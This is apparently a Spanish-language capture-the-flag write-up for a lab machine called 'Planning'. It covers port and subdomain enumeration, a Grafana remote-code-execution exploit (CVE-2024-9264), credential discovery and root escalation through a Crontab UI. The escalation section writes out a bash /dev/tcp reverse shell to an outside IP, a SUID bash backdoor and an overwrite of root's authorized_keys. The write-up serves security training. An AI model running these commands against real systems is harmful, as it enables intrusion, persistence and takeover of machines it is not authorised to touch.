

# Planning

**Dificultad:** Easy  
**SO:** Linux  

## Información de la máquina
Como en un pentest real, empezamos con las credenciales para la cuenta: `admin / 0D5oT70Fq13EvB5r`.

## Metodología

### Reconocimiento inicial

##### Reconocimiento del SO y puertos con NMAP
Comprobamos que es una maquina linux por el ttl ~ 64.
Reconocimiento inicial con nmap.

```bash
ping -c 4 10.10.11.68
nmap -sS -p- --min-rate 5000 10.10.11.68 -oG allPortsPlanning
nmap -sCV -p 22,80 -n -nP 10.10.11.68 -oA sondeoPlanning
```


#### Actualizar /etc/hosts (actúa como dns local)
Asociamos el nombre del host (planning.htb) con su dirección IP (10.10.11.68).

```bash
nano /etc/hosts
```


### Reconocimiento web

#### Análisis con Whappalyzer
Permite identificar las `tecnologías` que se utilizan en esta `web`.


#### Enumeración de subdirectorios con Gobuster
Al observar que se utiliza PHP, añadimos la opción -x php.

```bash
gobuster dir -u http://planning.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php
```


#### Enumeración de subdominios con Wfuzz
Primero vemos el comportamiento de los subdominios inválidos.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
```


Luego le metemos el `hide lines`, para `filtrar` todas las respuestas que tengan 7.

```bash
wfuzz -u http://10.10.11.68 -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hl 7
```



#### Mapeamos el nuevo subdominio en /etc/hosts
Asociamos grafana.planning.htb con la dirección IP del dominio (10.10.11.68).


#### Grafana
Página de login de Grafana en grafana.planning.htb.


Accedemos con las credenciales que nos han proporcionado (admin:0D5oT70Fq13EvB5r) y comprobamos que `Grafana v11.0.0` es vulnerable.


### CVE-2024-9264 - RCE en Grafana

Vulnerabilidad de ejecución remota de código (RCE) en Grafana v11.0.0.

La `función experimental de SQL Expressions` en Grafana, `permite ejecutar consultas en duckdb` que contienen información del usuario.

El problema radica en que `las consultas no se sanitizan` correctamente antes de ser procesadas por duckdb, lo que `permite una inyección de comandos y vulnerabilidad de inclusión de archivos locales (LFI)`.

Cualquier usuario con permiso de VIEWER o superior puede aprovechar esta vulnerabilidad para ejecutar comandos arbitrarios en el servidor.

Es importante destacar que para que el ataque funcione, `el binario de duckdb debe estar presente en el $PATH de Grafana`, aunque por defecto no viene instalado en las distribuciones estándar.


[Grafana Security Advisory CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264/)


#### Reverse shell
Ejecutamos el exploit y obtenemos una `reverse shell` como root.

```bash
python3 reverse.py --url http://grafana.planning.htb/ --username "admin" --password "0D5oT70Fq13EvB5r" --reverse-ip 10.10.16.19 --reverse-port 1337
```

[Reverse shell](images/planning_exploit.PNG)

[Github-CVE-2024-9264-RCE-Exploit](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit)


#### Tratamiento de la TTY

```bash
script /dev/null -c bash
CTRL + Z
stty raw -echo; fg
reset xterm
export SHELL=bash
export TERM=xterm
stty rows 40 columns 184
```

### Post-Explotación
Viendo el nombre del `hostname 7ce659d667d7` ya se puede intuir que estamos es un `contenedor docker`, para confirmalo vemos quien es el proceso 1 (en este caso `Grafana` ha sido la aplicación que se lanzó con el contenedor).

[Proceso 1](images/planning_process_1.PNG)

#### LinPEAS
Utilicé `LinPEAS` para enumerar posibles vectores de escalada, aunque lo primero es `subirlo al contenedor`.

[Subir LinPEAS](images/planning_linpeas.PNG)

Encontrando las credenciales para `enzo:RioTecRANDEntANT!` en las variables de entorno (sin linPEAS, con env o printenv).

[Subir LinPEAS](images/planning_linpeas_env.PNG)

#### SSH
Nos conectamos por SSH con el usuario enzo.

```bash
ssh enzo@10.10.11.68
```

[SSH 1](images/planning_ssh_enzo1.PNG)
[SSH 2](images/planning_ssh_enzo2.PNG)

#### Escalada a root
Buscando servicios internos con `netstat -ano`, me encontré con grafana escuchando en el 3000 [Grafana docs](https://grafana.com/docs/grafana/latest/setup-grafana/start-restart-grafana/#docker-compose-example) y otro servicio en el 8000, pero requería autenticación.

[NetStat](images/planning_conexiones_locales.PNG)
[Servicio desconocido](images/planning_servicio_desconocido.PNG)

Tras investigar el sistema un rato, me encontré el archivo `crontab.db` en la ruta `/opt/crontab/crontab.db`. Al parecer hay una tarea programada en JSON que ejecuta un backup diario de un contenedor docker, donde guarda la imagen `root_grafana` en un grafana.tar y después la comprime en un .zip protegido con la contraseña `P4ssw0rdS0pRi0T3c`.

Ahora con esta contraseña, pruebo a autenticarme de nuevo contra el servicio desconocido con diferentes usuarios (enzo, root_grafana y root). Obteniendo un HTTP 200 OK con `root:P4ssw0rdS0pRi0T3c`.

```bash
curl -u enzo:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root_grafana:P4ssw0rdS0pRi0c http://localhost:8000/ -v
curl -u root:P4ssw0rdS0pRi0c http://localhost:8000/ -v
```

[Autenticado contra el servicio desconocido](images/planning_autenticacion_servicio_desconocido.PNG)

#### Port Forwarding
Para comprender mejor que hay ahí vamos a redirigir el trafico desde un puerto de mi máquina local hacia el puerto donde está corriendo este servicio en la maquina remota.

```bash
ssh -L 8080:127.0.0.1:8000 enzo@10.10.11.68
```
[Port Forwarding](images/planning_port_forwarding.PNG)

#### Crontab UI
El servicio que corre en localhost:8000 es un Crontab UI desde donde se puede ejecutar comandos como root.

Maneras de convertirnos en root:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.19/1337 0>&1'
```

[Root - Simple reverse](images/planning_crontab_simple_reverse.PNG)

```bash
cp /bin/bash /usr/local/bin/upupup && chmod 4755 /usr/local/bin/upupup
cp /bin/bash /usr/local/bin/upupup && chmod u+s /usr/local/bin/upupup
```

[Root - Bit SUID](images/planning_crontab_suid_shell.PNG)

```bash
echo 'ssh-rsa AAAAB3Nz...LJzNu/ZQ== kali@kali' > /root/.ssh/authorized_keys
```

[Root - SSH authorized_keys](images/planning_crontab_ssh_pub.PNG)

### Limpieza del entorno
Una vez terminada la máquina, recuerda limpiar todos los archivos creados para mantener el entorno limpio.

[Limpieza](images/planning_limpieza_entorno.PNG)